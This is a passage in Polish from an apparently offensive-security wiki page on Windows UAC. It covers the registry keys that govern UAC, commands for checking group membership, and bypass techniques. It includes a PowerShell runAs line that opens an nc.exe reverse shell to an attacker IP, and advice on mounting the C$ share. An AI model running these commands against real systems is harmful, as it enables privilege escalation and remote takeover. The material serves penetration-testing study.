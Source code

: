 I na koniec spójrz na wartość klucza **`FilterAdministratorToken`**\
Jeśli **`0`** (domyślnie), **wbudowane konto Administratora może** wykonywać zadania zdalnej administracji, a jeśli **`1`**, wbudowane konto Administratora **nie może** wykonywać zdalnych zadań administracyjnych, chyba że `LocalAccountTokenFilterPolicy` jest ustawione na `1`.

#### Podsumowanie

- Jeśli `EnableLUA=0` lub **nie istnieje**, **brak UAC dla nikogo**
- Jeśli `EnableLua=1` i **`LocalAccountTokenFilterPolicy=1`, brak UAC dla nikogo**
- Jeśli `EnableLua=1` i **`LocalAccountTokenFilterPolicy=0` i `FilterAdministratorToken=0`, brak UAC dla RID 500 (Wbudowany Administrator)**
- Jeśli `EnableLua=1` i **`LocalAccountTokenFilterPolicy=0` i `FilterAdministratorToken=1`, UAC dla wszystkich**

Wszystkie te informacje można zebrać za pomocą modułu **metasploit**: `post/windows/gather/win_privs`

Możesz również sprawdzić grupy swojego użytkownika i uzyskać poziom integralności:
```
net user %username%
whoami /groups | findstr Level
```
## UAC bypass

> [!NOTE]
> Zauważ, że jeśli masz dostęp graficzny do ofiary, obejście UAC jest proste, ponieważ możesz po prostu kliknąć "Tak", gdy pojawi się monit UAC.

Obejście UAC jest potrzebne w następującej sytuacji: **UAC jest aktywowany, twój proces działa w kontekście średniej integralności, a twój użytkownik należy do grupy administratorów**.

Ważne jest, aby wspomnieć, że **znacznie trudniej jest obejść UAC, jeśli jest on na najwyższym poziomie bezpieczeństwa (Zawsze) niż jeśli jest na którymkolwiek z innych poziomów (Domyślny).**

### UAC disabled

Jeśli UAC jest już wyłączony (`ConsentPromptBehaviorAdmin` to **`0`**), możesz **wykonać odwrotną powłokę z uprawnieniami administratora** (wysoki poziom integralności) używając czegoś takiego:
```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```
#### Ominięcie UAC z duplikacją tokenów

- [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
- [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **Bardzo** podstawowe "ominięcie" UAC (pełny dostęp do systemu plików)

Jeśli masz powłokę z użytkownikiem, który jest w grupie Administratorzy, możesz **zamontować C$** udostępnione przez SMB (system plików) lokalnie na nowym dysku i będziesz miał **dostęp do wszystkiego w systemie plików** (nawet do folderu domowego Administratora).
